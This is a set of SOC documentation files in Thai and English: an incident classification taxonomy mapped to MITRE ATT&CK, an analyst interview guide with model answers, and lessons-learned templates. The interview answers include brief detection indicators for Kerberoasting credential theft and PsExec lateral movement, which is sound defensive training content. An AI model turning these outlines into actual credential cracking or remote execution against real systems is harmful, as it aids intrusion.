| **แผนก** | ผู้ใช้/ระบบหลายตัวในแผนกเดียว | ทีมการเงินถูก phishing |
| **องค์กร** | กระทบหลายแผนกหรือหลายสาขา | Ransomware แพร่ทั้ง network |
| **ภายนอก** | เกี่ยวข้องกับบุคคลที่สาม, ลูกค้า, สาธารณะ | ข้อมูลลูกค้ารั่วไหล |
| **อุตสาหกรรม** | เป็นส่วนหนึ่งของแคมเปญที่มุ่งเป้าภาคส่วน | APT โจมตีภาคการเงิน |

---

## 5. การแมปกับ MITRE ATT&CK

ทุกเหตุการณ์ **ต้อง** แมปกับอย่างน้อยหนึ่ง ATT&CK technique

| Tactic | Techniques ที่พบบ่อย | ตัวอย่างเหตุการณ์ |
|:---|:---|:---|
| **Initial Access** | T1566 (Phishing), T1190 (Exploit) | Email phishing มี macro |
| **Execution** | T1059 (Command/Scripting), T1204 (User Execution) | PowerShell download cradle |
| **Persistence** | T1053 (Scheduled Task), T1547 (Autostart) | Scheduled task สำหรับ backdoor |
| **Privilege Escalation** | T1548 (Abuse Elevation), T1068 (PE Exploit) | Local admin exploit |
| **Defense Evasion** | T1027 (Obfuscation), T1070 (Indicator Removal) | ลบ log หลังบุกรุก |
| **Credential Access** | T1003 (Credential Dumping), T1110 (Brute Force) | LSASS memory dump |
| **Lateral Movement** | T1021 (Remote Services), T1570 (Tool Transfer) | PsExec ไป domain controller |
| **Exfiltration** | T1048 (Alt Protocol), T1567 (Web Service) | DNS tunneling |
| **Impact** | T1486 (Encryption for Impact), T1489 (Service Stop) | Ransomware encryption |

---

## ขั้นตอนการจำแนก

```mermaid
flowchart TD
    A[รับ Alert] --> B[กำหนดรหัสหมวดหมู่]
    B --> C[กำหนดหมวดย่อย]
    C --> D[กำหนดระดับ P1-P4]
    D --> E[กำหนดขอบเขต]
    E --> F[แมปกับ MITRE TTP]
    F --> G{กรอกครบ 5 ฟิลด์?}
    G -->|ใช่| H[✅ จำแนกเสร็จ]
    G -->|ไม่| I[🔄 เก็บข้อมูลเพิ่ม]
    I --> B
    H --> J[ดำเนินการสืบสวน]

    style A fill:#3b82f6,color:#fff
    style H fill:#22c55e,color:#fff
    style I fill:#f59e0b,color:#fff
```

### Template สำหรับ Ticket

```
Category:      [MAL/PHI/UNA/PRV/LAT/EXF/DOS/WEB/INS/CLD/SUP/VUL/POL/PHY/OTH]
Sub-Category:  [เช่น MAL-RAN]
Severity:      [P1/P2/P3/P4]
Scope:         [บุคคล/แผนก/องค์กร/ภายนอก/อุตสาหกรรม]
MITRE TTP:     [T-code, เช่น T1486, T1059.001]
```

---

## กฎการเปลี่ยนระดับ

| เงื่อนไข | การดำเนินการ |
|:---|:---|
| หลักฐานใหม่เปลี่ยนการประเมินผลกระทบ | เปลี่ยนระดับ, บันทึกเหตุผล |
| พบระบบที่ถูกบุกรุกเพิ่ม | ยกระดับขอบเขต, พิจารณายกระดับความรุนแรง |
| Root cause เปลี่ยนหมวดหมู่ | อัปเดตหมวดหมู่ |
| ยืนยัน false positive | ลดเป็น P4 หรือปิด |
| เกินเวลาส่งต่อ | Auto-upgrade หนึ่งระดับ |

> ⚠️ **การเปลี่ยนระดับทุกครั้งต้องบันทึก** พร้อม timestamp และเหตุผลใน ticket

---

## ตัวชี้วัดการจำแนก

| ตัวชี้วัด | เป้าหมาย | เหตุผล |
|:---|:---:|:---|
| % เหตุการณ์ที่จำแนกครบ | ≥ 95% | วัดการนำ taxonomy ไปใช้ |
| อัตราการเปลี่ยนระดับ | < 15% | วัดความแม่นยำเริ่มต้น |
| เวลาในการจำแนก | < 10 นาที | วัดความเร็ว triage |
| MITRE coverage (unique techniques) | ติดตามแนวโน้ม | วัด visibility ของ threat landscape |
| การกระจายตัวตามหมวดหมู่ | ติดตามรายเดือน | ระบุแนวโน้มและภัยคุกคามใหม่ |

---

### Classification Quick Reference

| Type | Example | Default Severity |
|:---|:---|:---|
| Malware | Ransomware, trojan | High |
| Unauthorized access | Credential theft | Critical |
| Data loss | Exfiltration | Critical |
| DoS | DDoS attack | Medium |

## เอกสารที่เกี่ยวข้อง

-   [Severity Matrix](Severity_Matrix.en.md) — นิยามระดับความรุนแรงฉบับเต็ม
-   [Escalation Matrix](Escalation_Matrix.en.md) — ใครต้องส่งต่อเมื่อไร
-   [IR Framework](Framework.en.md) — วงจรชีวิตการตอบสนอง
-   [Tier 1 Runbook](Runbooks/Tier1_Runbook.en.md) — ขั้นตอน triage สำหรับ analyst
-   [SOAR Playbooks](SOAR_Playbooks.en.md) — Playbooks อัตโนมัติ
-   [Threat Hunting Playbook](Threat_Hunting_Playbook.en.md) — การล่าเชิงรุก


---

## File: 05_Incident_Response/Interview_Guide.en.md

# SOC Analyst Interview Guide

> **Document ID:** HR-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15  
> **Audience:** SOC Managers, HR, Hiring Teams

---

## How to Use This Guide

Select questions based on the **tier level** you're hiring for. Include a mix of technical, scenario-based, and behavioral questions. Score each answer 1–5.

---

## Tier 1 — Junior SOC Analyst

### Technical Questions

**Q1: What is the difference between an IDS and an IPS?**
> **Good answer:** IDS (Intrusion Detection System) monitors and alerts. IPS (Intrusion Prevention System) monitors AND blocks. IDS is passive, IPS is inline.

**Q2: A user reports they clicked a suspicious link in an email. Walk me through your first 5 steps.**
> **Good answer:**
> 1. Don't panic — get details (email sender, URL, time clicked)
> 2. Check email headers — is the sender spoofed?
> 3. Check URL reputation (VirusTotal, URLhaus)
> 4. Check EDR — did anything execute on the user's machine?
> 5. If malicious → isolate endpoint, escalate to T2, block sender/URL

**Q3: What is a false positive? Give an example.**
> **Good answer:** An alert that fires but is not actually malicious. Example: vulnerability scanner triggering IDS alerts, or admin using PowerShell legitimately triggering a "suspicious script" alert.

**Q4: What common ports should a SOC analyst know?**
> **Good answer:** 80/443 (HTTP/HTTPS), 22 (SSH), 3389 (RDP), 53 (DNS), 25/587 (SMTP), 445 (SMB), 389/636 (LDAP), 88 (Kerberos)

**Q5: You see 500 failed login attempts from one IP in 5 minutes. What do you do?**
> **Good answer:** This is likely brute force (T1110). Check if any login succeeded after the failures. If external IP → block at firewall. If login succeeded → treat as account compromise, escalate. Check if other accounts targeted (password spray).

### Hands-On Test (15 min)
Give the candidate a sample SIEM alert (screenshot or mock) and ask:
1. What is the severity?
2. What would you investigate next?
3. Would you escalate? To whom?

---

## Tier 2 — Senior SOC Analyst

### Technical Questions

**Q1: Explain the MITRE ATT&CK framework. How do you use it in your daily work?**
> **Good answer:** Matrix of adversary tactics and techniques. Use it to: map alerts to techniques, identify coverage gaps, communicate with threat intel teams, prioritize detection rules.

**Q2: What's the difference between EDR and SIEM? When do you use each?**
> **Good answer:** SIEM aggregates logs from many sources, correlates events, provides broad visibility. EDR focuses on endpoints — process execution, file changes, network connections. Use SIEM for cross-source correlation, EDR for deep endpoint investigation and response (isolation, kill process).

**Q3: You're investigating a compromised Windows server. What artifacts do you look for?**
> **Good answer should include:**
> - Event logs (4624/4625/4688/1102)
> - Sysmon logs (process creation, network connections)
> - Scheduled tasks, services, registry run keys (persistence)
> - PowerShell history / transcript logs
> - Browser history, recent files
> - Memory dump (if available)
> - Prefetch files, shimcache, amcache

**Q4: What is Kerberoasting and how do you detect it?**
> **Good answer:** Attacker requests TGS tickets for service accounts with SPNs, then cracks the ticket offline to get the service account password. Detect via: Event ID 4769 with encryption type 0x17 (RC4), anomalous TGS volume from single account.

**Q5: Design a detection rule for lateral movement via PsExec.**
> **Good answer should cover:**
> - New service installed (Event ID 7045, service name "PSEXESVC")
> - Named pipe creation (\\pipe\psexesvc)
> - Remote process creation via admin share (\\target\ADMIN$)
> - Network connection to port 445 followed by service creation

### Scenario Test (30 min)
Present a multi-stage attack scenario (phishing → execution → lateral movement) with simulated SIEM data. Ask the candidate to:
1. Build a timeline
2. Identify IOCs
3. Determine the blast radius
4. Recommend containment steps

---

## SOC Lead / Manager

### Leadership Questions

**Q1: How do you measure SOC effectiveness?**
> **Good answer:** MTTD (Mean Time to Detect), MTTR (Mean Time to Respond), alert-to-ticket ratio, false positive rate, SLA compliance, coverage against MITRE ATT&CK, analyst satisfaction/retention.

**Q2: Your team has 50% false positive rate. How do you reduce it?**
> **Good answer:** 
> 1. Analyze top 10 noisiest rules
> 2. Work with detection engineering to tune thresholds/whitelists
> 3. Implement tiered alerting (info vs warning vs critical)
> 4. Establish a feedback loop — analysts flag FP → engineering tunes
> 5. Track FP rate per rule, set improvement targets

**Q3: How do you prevent analyst burnout in a 24/7 SOC?**
> **Good answer:** Fair shift rotation, limit consecutive night shifts, automate repetitive tasks (SOAR), meaningful work (not just clicking "close"), training/certification opportunities, recognition, career path visibility.

**Q4: You have a budget to add one tool. How do you decide what to buy?**
> **Good answer:** 
> 1. Assess current capability gaps (MITRE ATT&CK coverage)
> 2. Interview analysts — what slows them down most?
> 3. Evaluate: does this reduce MTTD, MTTR, or FP rate?
> 4. Consider: build (open-source) vs buy (vendor)
> 5. POC with top 2 vendors, test against real scenarios
> 6. Calculate ROI (hours saved × analyst cost)

---

## Behavioral Questions (All Tiers)

| Question | What You're Assessing |
|:---|:---|
| Tell me about a time you handled a stressful incident | Composure under pressure |
| Describe a time you escalated something and were wrong | Humility, learning from mistakes |
| How do you stay current on new threats? | Continuous learning |
| What's the most interesting security incident you've worked on? | Passion, depth of experience |
| How do you handle disagreements with colleagues about severity? | Communication, teamwork |

---

## Scoring Matrix

| Criteria | Weight | Score (1-5) |
|:---|:---:|:---:|
| Technical knowledge | 30% | ___ |
| Hands-on/scenario performance | 25% | ___ |
| Communication skills | 15% | ___ |
| Problem-solving approach | 15% | ___ |
| Cultural fit / teamwork | 10% | ___ |
| Learning mindset | 5% | ___ |
| **Weighted Total** | **100%** | **___** |

**Hiring threshold:** ≥ 3.5 weighted average

---

## Scenario-Based Interview Questions

### Scenario 1: Phishing Investigation
```
You receive an alert that an employee clicked a link in a suspicious email.
The email appears to come from the CEO asking to review an "urgent document."

Questions:
1. What are your first 3 actions? (Expected: check email headers,
   analyze link/URL in sandbox, check if user entered credentials)
2. How do you determine if this is a targeted attack vs. mass phishing?
3. The user confirms they entered their password. What do you do now?
4. You find the same email was sent to 50 other employees. How do you
   prioritize your response?
```

### Scenario 2: Ransomware Detection
```
At 3:00 AM, you notice an EDR alert showing rapid file renaming
activity on a file server. The extensions are changing to ".locked".

Questions:
1. What is your immediate containment action?
2. How do you determine the scope of the infection?
3. The SOC Manager is unreachable. What do you do?
4. Business wants to know when systems will be back. What do you say?
```

### Scenario 3: Insider Threat
```
A DLP alert shows a senior engineer downloading large amounts of
source code to a USB drive at 11 PM on a Friday.

Questions:
1. Is this necessarily malicious? What factors would you consider?
2. How do you investigate without alerting the employee?
3. Who do you escalate to, and what information do you provide?
4. What evidence would you preserve?
```

## Interview Scoring Rubric

| Competency | 1 (Poor) | 2 (Basic) | 3 (Good) | 4 (Excellent) |
|:---|:---|:---|:---|:---|
| **Technical Knowledge** | Cannot explain basic concepts | Knows theory, limited practice | Solid practical knowledge | Expert, can teach others |
| **Analytical Thinking** | Random approach, no method | Some structure, misses steps | Systematic methodology | Hypothesis-driven, thorough |
| **Communication** | Unclear, jargon-heavy | Adequate for peers | Clear to technical + non-technical | Excellent storytelling |
| **Judgment** | Poor escalation decisions | Escalates everything | Good balance of action + escalation | Nuanced, risk-based decisions |
| **Tool Proficiency** | Cannot describe tool use | Names tools, basic use | Competent with core tools | Advanced queries, automation |

## Related Documents

- [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md)
- [SOC Building Roadmap](../01_SOC_Fundamentals/SOC_Building_Roadmap.en.md)
- [Tier 1 Runbook](Runbooks/Tier1_Runbook.en.md)


---

## File: 05_Incident_Response/Interview_Guide.th.md

# คู่มือสัมภาษณ์ SOC Analyst

> **รหัสเอกสาร:** HR-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15  
> **กลุ่มเป้าหมาย:** SOC Manager, HR

---

## วิธีใช้

เลือกคำถามตาม **ระดับ** ที่จ้าง ผสมคำถามเทคนิค + สถานการณ์จำลอง + พฤติกรรม ให้คะแนน 1–5

---

## Tier 1 — Junior Analyst

### คำถามเทคนิค

**Q1: IDS กับ IPS ต่างกันอย่างไร?**
> IDS ตรวจจับ+แจ้งเตือน (passive), IPS ตรวจจับ+ป้องกัน (inline)

**Q2: User แจ้งว่าคลิก link น่าสงสัยใน email คุณทำอะไร 5 ขั้นตอน?**
> 1) ถามรายละเอียด 2) ตรวจ header 3) ตรวจ URL (VT) 4) ตรวจ EDR 5) ถ้าอันตราย → isolate + escalate

**Q3: False Positive คืออะไร? ยกตัวอย่าง**
> Alert ที่ fire แต่ไม่ใช่ภัยจริง เช่น vulnerability scanner trigger IDS

**Q4: Port ที่ analyst ต้องรู้?**
> 80/443, 22, 3389, 53, 25, 445, 389, 88

**Q5: เห็น 500 failed logins จาก IP เดียวใน 5 นาที ทำอะไร?**
> Brute force (T1110) → ตรวจว่ามี login สำเร็จไหม → Block IP → ถ้าสำเร็จ = compromise → escalate

### Hands-On Test (15 นาที)
ให้ดู SIEM alert จำลอง → ถามความรุนแรง, สืบต่ออะไร, escalate ไหม

---

## Tier 2 — Senior Analyst

**Q1: อธิบาย MITRE ATT&CK และใช้อย่างไร?**

**Q2: EDR กับ SIEM ต่างกันอย่างไร?**

**Q3: สืบสวน Windows server ที่ถูก compromise — ดู artifact อะไร?**
> Event logs, Sysmon, scheduled tasks, PowerShell history, registry run keys, memory dump

**Q4: Kerberoasting คืออะไร? ตรวจจับอย่างไร?**

**Q5: ออกแบบ detection rule สำหรับ PsExec lateral movement**

### Scenario Test (30 นาที)
ให้สถานการณ์ multi-stage attack → สร้าง timeline, หา IOC, กำหนด blast radius, แนะนำ containment

---

## SOC Lead / Manager

**Q1: วัดประสิทธิภาพ SOC อย่างไร?**
> MTTD, MTTR, FP rate, SLA, MITRE coverage, analyst retention

**Q2: FP rate 50% — ลดอย่างไร?**

**Q3: ป้องกัน analyst burnout อย่างไร?**

**Q4: มีงบซื้อเครื่องมือ 1 ตัว — ตัดสินใจอย่างไร?**

---

## คำถามพฤติกรรม (ทุก Tier)

| คำถาม | ประเมินอะไร |
|:---|:---|
| เล่าเรื่อง incident ที่กดดัน | ความสงบภายใต้แรงกดดัน |
| เคย escalate ผิดไหม? | ความอ่อนน้อม เรียนรู้จากข้อผิดพลาด |
| ติดตามภัยใหม่อย่างไร? | การเรียนรู้ต่อเนื่อง |
| Incident ที่น่าสนใจที่สุด? | ความหลงใหล ประสบการณ์ |

---

## ตารางให้คะแนน

| เกณฑ์ | น้ำหนัก | คะแนน (1-5) |
|:---|:---:|:---:|
| ความรู้เทคนิค | 30% | ___ |
| Hands-on | 25% | ___ |
| สื่อสาร | 15% | ___ |
| แก้ปัญหา | 15% | ___ |
| Teamwork | 10% | ___ |
| การเรียนรู้ | 5% | ___ |

**เกณฑ์ผ่าน:** ≥ 3.5 ค่าเฉลี่ยถ่วงน้ำหนัก

---

## Interview Question Bank

### สำหรับ Incident Reporter

| # | คำถาม | วัตถุประสงค์ |
|:---|:---|:---|
| 1 | สังเกตเห็นอะไรผิดปกติเป็นครั้งแรก? | Timeline |
| 2 | เกิดขึ้นเมื่อไร? | Timestamp |
| 3 | มีใครอื่นเห็นเหตุการณ์ด้วยหรือไม่? | Witnesses |
| 4 | คุณกำลังทำอะไรก่อนเกิดเหตุ? | Context |
| 5 | มีการคลิกลิงก์หรือเปิดไฟล์หรือไม่? | Initial vector |
| 6 | เครื่องมีอาการผิดปกติอย่างไร? | Symptoms |
| 7 | มีใครเข้าถึงเครื่องคุณได้บ้าง? | Access |
| 8 | ข้อมูลอ่อนไหวถูกกระทบหรือไม่? | Impact |

### Interview Do's and Don'ts

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| บันทึกทุกรายละเอียด | กล่าวโทษผู้ถูกสัมภาษณ์ |
| ใช้คำถามปลายเปิด | ถามนำคำตอบ |
| รักษาความลับ | แชร์ข้อมูลเกินจำเป็น |
| ยืนยัน timeline ซ้ำ | ข้ามรายละเอียดเล็กน้อย |

### Interview Documentation Template

```
Interview Record:
- Date/Time: [วันเวลา]
- Interviewer: [ชื่อ]
- Interviewee: [ชื่อ + ตำแหน่ง]
- Incident ID: [INC-XXXX]
- Key Findings:
  1. [ข้อค้นพบ 1]
  2. [ข้อค้นพบ 2]
- Follow-up Actions:
  1. [action item]
- Signature: _____________
```

### Key Interview Principles

| Principle | Rationale |
|:---|:---|
| Open-ended questions | ได้ข้อมูลมากกว่า |
| Active listening | สร้างความไว้วางใจ |
| Document everything | Evidence integrity |

## คำถามสัมภาษณ์ตามสถานการณ์

### สถานการณ์ 1: สืบสวน Phishing
```
คุณได้รับ alert ว่าพนักงานคลิกลิงก์ในอีเมลน่าสงสัย
อีเมลดูเหมือนมาจาก CEO ขอให้ตรวจ "เอกสารเร่งด่วน"

คำถาม:
1. 3 actions แรกของคุณคืออะไร?
2. คุณแยกอย่างไรว่าเป็น targeted attack vs. mass phishing?
3. ผู้ใช้ยืนยันว่าใส่รหัสผ่านไปแล้ว คุณทำอะไรต่อ?
4. พบว่าอีเมลเดียวกันส่งให้ 50 คน คุณจัดลำดับอย่างไร?
```

### สถานการณ์ 2: ตรวจจับ Ransomware
```
ตอนตี 3 คุณเห็น EDR alert แสดงการเปลี่ยนชื่อไฟล์เร็วมาก
บน file server นามสกุลเปลี่ยนเป็น ".locked"

คำถาม:
1. Containment action ทันทีคืออะไร?
2. คุณหา scope ของการติดเชื้ออย่างไร?
3. SOC Manager ติดต่อไม่ได้ คุณทำอย่างไร?
4. ธุรกิจถามว่าระบบจะกลับมาเมื่อไร คุณตอบอย่างไร?
```

### สถานการณ์ 3: Insider Threat
```
DLP alert แสดงว่า senior engineer ดาวน์โหลด source code
จำนวนมากไป USB drive ตอน 5 ทุ่มวันศุกร์

คำถาม:
1. นี่เป็นอันตรายแน่ไหม? คุณพิจารณาปัจจัยอะไร?
2. สืบสวนอย่างไรโดยไม่ให้พนักงานรู้?
3. Escalate ให้ใคร พร้อมข้อมูลอะไร?
4. คุณเก็บรักษาหลักฐานอะไร?
```

## เกณฑ์ให้คะแนนสัมภาษณ์

| ความสามารถ | 1 (อ่อน) | 2 (พื้นฐาน) | 3 (ดี) | 4 (ยอดเยี่ยม) |
|:---|:---|:---|:---|:---|
| **ความรู้เทคนิค** | อธิบายพื้นฐานไม่ได้ | รู้ทฤษฎี ปฏิบัติน้อย | ปฏิบัติได้ดี | เชี่ยวชาญ สอนได้ |
| **วิเคราะห์** | สุ่มทำ ไม่มีวิธี | มีโครงสร้างบ้าง | เป็นระบบ | Hypothesis-driven |
| **สื่อสาร** | ไม่ชัด ศัพท์เทคนิคเยอะ | พอได้ | ชัดทั้ง IT และ non-IT | เล่าเรื่องเก่ง |
| **วิจารณญาณ** | ตัดสินใจ escalate ผิด | Escalate ทุกอย่าง | สมดุล action + escalation | ละเอียด risk-based |
| **เครื่องมือ** | อธิบายไม่ได้ | รู้ชื่อ ใช้พื้นฐาน | ใช้เครื่องมือหลักได้ดี | Advanced queries, automation |

## เอกสารที่เกี่ยวข้อง

- [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md)
- [แผนงานสร้าง SOC](../01_SOC_Fundamentals/SOC_Building_Roadmap.th.md)


---

## File: 05_Incident_Response/Lessons_Learned_Template.en.md

# Incident Lessons Learned Template

> **Document ID:** LL-001  
> **Version:** 1.0  
> **Last Updated:** 2026-02-15

---

## Incident Summary

| Field | Details |
|:---|:---|
| **Incident ID** | INC-YYYY-NNN |
| **Date Detected** | YYYY-MM-DD HH:MM |
| **Date Resolved** | YYYY-MM-DD HH:MM |
| **Severity** | P1 / P2 / P3 / P4 |
| **Type** | (Phishing / Ransomware / Account Compromise / etc.) |
| **MITRE ATT&CK** | (T1xxx — Technique Name) |
| **Affected Systems** | (hostnames, IPs, user accounts) |
| **Blast Radius** | (number of systems/users affected) |
| **Business Impact** | (downtime hours, data exposed, financial cost) |
| **Lead Analyst** | (name) |
| **Incident Commander** | (name) |

---

## Timeline

| Time | Event | Source |
|:---|:---|:---|
| YYYY-MM-DD HH:MM | Initial indicator observed | SIEM alert |
| | Alert triaged by T1 analyst | Ticket system |
| | Escalated to T2 | Ticket system |
| | Containment action taken | EDR / Firewall |
| | Root cause identified | Investigation |
| | Eradication completed | Manual / automated |
| | Recovery and monitoring | SOC team |
| | Incident closed | Ticket system |

---

## Key Metrics

| Metric | Value | SLA Target | Met? |
|:---|:---:|:---:|:---:|
| **Time to Detect** (MTTD) | ___ min | ≤ 60 min | ✅/❌ |
| **Time to Respond** (MTTR) | ___ min | ≤ 240 min | ✅/❌ |
| **Time to Contain** | ___ min | ≤ 60 min (P1) | ✅/❌ |
| **Time to Resolve** | ___ hours | Varies | ✅/❌ |

---

## What Went Well ✅

1. ___ (e.g., "Detection rule fired within 3 minutes")
2. ___ (e.g., "T1 analyst correctly escalated to T2")
3. ___ (e.g., "EDR isolation prevented lateral movement")

## What Didn't Go Well ❌

1. ___ (e.g., "Alert was ignored for 2 hours due to queue volume")
2. ___ (e.g., "Playbook had outdated contact information")
3. ___ (e.g., "No Sigma rule for this specific attack vector")

## Root Cause

```
Describe the root cause of the incident in 2-3 sentences.
Example: "An employee clicked a phishing link containing a credential harvester. 
The stolen credentials were used to access the VPN and move laterally to the 
file server. The MFA bypass was possible due to legacy authentication protocols."
```

---

## Action Items

| # | Action | Owner | Due Date | Status |
|:---:|:---|:---|:---:|:---:|
| 1 | Create detection rule for ____ | Detection Eng | YYYY-MM-DD | ☐ |
| 2 | Update playbook PB-XX with ____ | SOC Lead | YYYY-MM-DD | ☐ |
| 3 | Implement MFA for ____ | IT Admin | YYYY-MM-DD | ☐ |
| 4 | Add IOCs to blocklist | T2 Analyst | YYYY-MM-DD | ☐ |
| 5 | Security awareness training on ____ | HR/Security | YYYY-MM-DD | ☐ |

---

## Detection Gap Analysis

| Question | Answer |
|:---|:---|
| Did existing rules detect this? | Yes / No / Partially |
| What rule/alert detected it? | (rule name or "none") |
| Was it detected automatically or by human? | Auto / Manual / User report |
| Detection gaps identified | (what was missing) |
| New rules needed | (describe rule to create) |
| MITRE ATT&CK coverage gap | (technique not covered) |

---

## Meeting Details

| Field | Details |
|:---|:---|
| **Meeting Date** | YYYY-MM-DD |
| **Attendees** | (names and roles) |
| **Duration** | ___ minutes |
| **Facilitator** | (name) |

---

## Sign-off

```
SOC Manager:    ____________________ Date: __________
CISO:           ____________________ Date: __________
IT Manager:     ____________________ Date: __________
```

---

## Common Lessons Learned Patterns

Based on recurring findings from past incidents:

| # | Pattern | Frequency | Typical Root Cause | Standard Action |
|:---|:---|:---:|:---|:---|
| 1 | Detection rule missing for attack technique | 40% | New TTP not yet covered | Create Sigma rule within 48h |
| 2 | Playbook had outdated contact info | 25% | Staff changes not reflected | Monthly SOP review check |
| 3 | Slow detection (MTTD > SLA) | 20% | Alert fatigue, queue overload | Tune rules, add context, reduce FP |
| 4 | Containment delayed by approval process | 15% | Unclear authorization chain | Pre-authorize containment for confirmed threats |
| 5 | Evidence handling broken chain of custody | 10% | No standard forensic procedure | Enforce forensic SOP checklist |
| 6 | Communication gaps during P1 | 20% | No war room activated | Auto-activate war room for P1 |
| 7 | Same vulnerability re-exploited | 15% | Patch not applied after advisory | Automated patch tracking + escalation |

## Lessons Learned Meeting Best Practices

### Facilitator Checklist
```
BEFORE MEETING:
□ Schedule within 5 business days of incident closure
□ Send pre-read: incident timeline, key metrics, initial findings
□ Invite: Lead analyst, T2/T3 involved, SOC Manager, IT contacts
□ Book 60-90 minutes

DURING MEETING:
□ Set ground rules: blameless, focus on process not people
□ Walk through timeline together
□ For each phase, ask: "What went well? What didn't?"
□ Identify action items with SPECIFIC owners and deadlines
□ Prioritize: which 3 actions will have the most impact?

AFTER MEETING:
□ Distribute meeting notes within 24 hours
□ Create tickets for all action items
□ Track completion in weekly SOC ops meeting
□ Close LL record when all actions completed
```

### Blameless Post-Mortem Culture

| ✅ Do | ❌ Don't |
|:---|:---|
| Focus on system failures, not individual mistakes | Blame specific people |
| Ask "what allowed this to happen?" | Ask "who did this?" |
| Celebrate detections and good escalations | Focus only on failures |
| Share findings across the team | Keep lessons learned private |
| Track action item completion | Identify actions but never follow up |

## Related Documents

- [IR Framework](Framework.en.md)
- [Communication Templates](Communication_Templates.en.md)
- [Incident Report Template](../11_Reporting_Templates/incident_report.en.md)


---

## File: 05_Incident_Response/Lessons_Learned_Template.th.md

# แม่แบบ Lessons Learned (บทเรียนจากเหตุการณ์)

> **รหัสเอกสาร:** LL-001  
> **เวอร์ชัน:** 1.0  
> **อัปเดตล่าสุด:** 2026-02-15

---

## สรุปเหตุการณ์

| ข้อมูล | รายละเอียด |
|:---|:---|
| **Incident ID** | INC-YYYY-NNN |
| **วันที่ตรวจพบ** | YYYY-MM-DD HH:MM |
| **วันที่แก้ไขเสร็จ** | YYYY-MM-DD HH:MM |
| **ระดับ** | P1 / P2 / P3 / P4 |
| **ประเภท** | (Phishing / Ransomware / ฯลฯ) |
| **ระบบที่ได้รับผลกระทบ** | |
| **ผลกระทบทางธุรกิจ** | (downtime, ข้อมูลรั่ว, ค่าใช้จ่าย) |

---

## KPIs

| ตัวชี้วัด | ค่า | เป้า SLA | ผ่าน? |
|:---|:---:|:---:|:---:|
| MTTD | ___ นาที | ≤ 60 นาที | ✅/❌ |
| MTTR | ___ นาที | ≤ 240 นาที | ✅/❌ |
| เวลา Contain | ___ นาที | ≤ 60 นาที | ✅/❌ |

---

## สิ่งที่ทำได้ดี ✅
1. ___
2. ___

## สิ่งที่ต้องปรับปรุง ❌
1. ___
2. ___

## สาเหตุรากเหง้า
_อธิบาย root cause 2–3 ประโยค_

---

## รายการแก้ไข

| # | สิ่งที่ต้องทำ | ผู้รับผิดชอบ | กำหนด | สถานะ |
|:---:|:---|:---|:---:|:---:|
| 1 | สร้าง detection rule สำหรับ ____ | DetEng | | ☐ |
| 2 | อัปเดต playbook PB-XX | SOC Lead | | ☐ |
| 3 | Implement MFA สำหรับ ____ | IT | | ☐ |

---

## การจัดอันดับการปรับปรุง

| ลำดับ | หมวดหมู่ | รายการ | ผู้รับผิดชอบ | กำหนด | สถานะ |
|:---:|:---|:---|:---|:---:|:---:|
| 🔴 สูง | Detection | สร้าง Sigma rule สำหรับ attack vector ที่ใช้ | DetEng | | ☐ |
| 🟡 กลาง | Process | อัปเดต Playbook ที่เกี่ยวข้อง | SOC Lead | | ☐ |
| 🟢 ต่ำ | Training | จัดอบรม awareness สำหรับผู้ใช้ | HR | | ☐ |

## ผลกระทบทางธุรกิจโดยละเอียด

| ด้าน | รายละเอียด |
|:---|:---|
| **Downtime** | [XX] ชั่วโมง |
| **ผู้ใช้ที่ได้รับผลกระทบ** | [XX] คน |
| **ข้อมูลที่ได้รับผลกระทบ** | [ระบุประเภทและปริมาณ] |
| **ค่าใช้จ่าย (ประมาณ)** | [XX] บาท |
| **ความเสี่ยงทางกฎหมาย** | [PDPA notification required? ใช่/ไม่] |

## รูปแบบ Lessons Learned ที่พบบ่อย

จากผลการวิเคราะห์ incident ที่ผ่านมา:

| # | รูปแบบ | ความถี่ | สาเหตุหลัก | แนวทางแก้ไข |
|:---|:---|:---:|:---|:---|
| 1 | ไม่มี detection rule สำหรับ technique | 40% | TTP ใหม่ยังไม่ครอบคลุม | สร้าง Sigma rule ภายใน 48 ชม. |
| 2 | Playbook มีข้อมูลติดต่อเก่า | 25% | การเปลี่ยนแปลงคนไม่ได้อัปเดต | ตรวจสอบ SOP รายเดือน |
| 3 | ตรวจจับช้า (MTTD > SLA) | 20% | Alert fatigue, queue แน่น | ปรับ rules, เพิ่ม context, ลด FP |
| 4 | Containment ล่าช้าเพราะรอ approval | 15% | Chain อนุมัติไม่ชัด | Pre-authorize containment สำหรับภัยที่ยืนยันแล้ว |
| 5 | หลักฐาน chain of custody ขาด | 10% | ไม่มี forensic procedure มาตรฐาน | บังคับใช้ forensic SOP checklist |
| 6 | Communication gaps ตอน P1 | 20% | ไม่เปิด war room | Auto-activate war room สำหรับ P1 |
| 7 | ช่องโหว่เดิมถูกโจมตีซ้ำ | 15% | ไม่ได้ patch หลังแจ้ง | ติดตาม patch อัตโนมัติ + escalation |

## แนวปฏิบัติที่ดีสำหรับการประชุม Lessons Learned

### Checklist สำหรับผู้นำประชุม
```
ก่อนประชุม:
□ นัดภายใน 5 วันทำการหลังปิด incident
□ ส่งเอกสารอ่านล่วงหน้า: timeline, metrics, ผลเบื้องต้น
□ เชิญ: Lead analyst, T2/T3 ที่เกี่ยว, SOC Manager, IT contacts
□ จอง 60-90 นาที

ระหว่างประชุม:
□ ตั้งกฎ: ไม่ตำหนิคน, โฟกัสกระบวนการ
□ เดินผ่าน timeline ด้วยกัน
□ แต่ละขั้น ถาม: "อะไรดี? อะไรไม่ดี?"
□ ระบุ action items พร้อม เจ้าของ+กำหนด เฉพาะ
□ จัดลำดับความสำคัญ: 3 actions ที่มีผลกระทบมากที่สุด

หลังประชุม:
□ ส่ง meeting notes ภายใน 24 ชม.
□ สร้าง tickets สำหรับทุก action items
□ ติดตามการทำเสร็จใน weekly SOC ops meeting
□ ปิด LL record เมื่อ actions ทั้งหมดเสร็จ
```

### วัฒนธรรม Blameless Post-Mortem

| ✅ ควรทำ | ❌ ไม่ควรทำ |
|:---|:---|
| โฟกัสที่ระบบล้มเหลว ไม่ใช่คนผิดพลาด | ตำหนิคนเฉพาะ |
| ถาม "อะไรทำให้เกิดขึ้นได้?" | ถาม "ใครทำ?" |
| ชื่นชม detection และ escalation ที่ดี | โฟกัสแค่ความล้มเหลว |
